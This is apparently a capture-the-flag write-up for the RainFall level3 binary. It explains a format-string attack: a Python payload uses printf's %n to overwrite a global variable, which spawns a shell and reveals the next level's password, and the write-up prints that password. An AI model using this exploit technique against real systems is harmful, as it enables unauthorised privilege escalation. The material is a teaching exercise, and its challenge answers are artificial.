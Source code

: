 Level3 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

Level3 rights:
```Shell
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

When testing the binary, we notice that it waits for user input and prints it back to us.
Decompiling with Ghidra on https://dogbolt.org/ shows four things:
- `main()` calls a `v()` function
- `v()` uses a buffer of 520 bytes that is used with `fgets()`, preventing us from doing the usual
exploitation of `gets()`
- however, `printf()` is also called and takes as its sole argument the buffer itself, which is unsafe
- a condition checks if `m` (a global variable) equals `0x40` (64). If true, it opens a terminal for us!

The goal is to replace the content of `m` with 64.
To do so, we can exploit `printf()` with a technique called [Format String Attack](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/):

_"[...]For example, if we can make the format argument "%x.%x.%x.%x", printf will pop off four stack values and print them in hexadecimal, potentially leaking sensitive information.
printf can also index to an arbitrary "argument" with the following syntax: "%n$x" (where n is the decimal index of the argument you want)."_

First, we must find the address of `m`. Disassembling `v()` with gdb shows us an address stored in `EAX`, then compared with 64.
```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
 0x080484df <+59>:    cmp    $0x40,%eax
[...]
 ```
This is the address of `m` converted into little endian: `\x8c\x98\x04\x08`.

With a bit of research, we stumbled upon the `%n` specifier. `%n` calculates how many characters have been printed, then stores the result at a specified `int*`.
Example:
```C
int a = 0;
printf("ABC%n", &a);
printf("%d", a);
```
Output:
```Shell
ABC
3
```

We can abuse `%n` to make it store the value (64) at the location of our choice (address of `m`).
Using the buffer is the best option: since we cannot directly pass the address of `m` directly to `%n`, we can give `%n` an index at which it is stored.
This is how we can use multiple `%p` to print the values on the stack, thus finding at which index our buffer starts:
```Shell
level3@RainFall:~$ ./level3
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

Now we know that it starts at the 4th index. Instead of writing `AAAA` (aka `0x41414141`), we will write
the address of `m` here.
Our buffer will contain [the address of `m`][A * 60], which makes it a size of 64. Perfect for abusing `%n`!
It will calculate a size of 64, then fetch the 4th index to store the value.
So our payload will be:
```Shell
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > /tmp/payload3
```

And the result is:
```Shell
level3@RainFall:~$ cat /tmp/payload3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```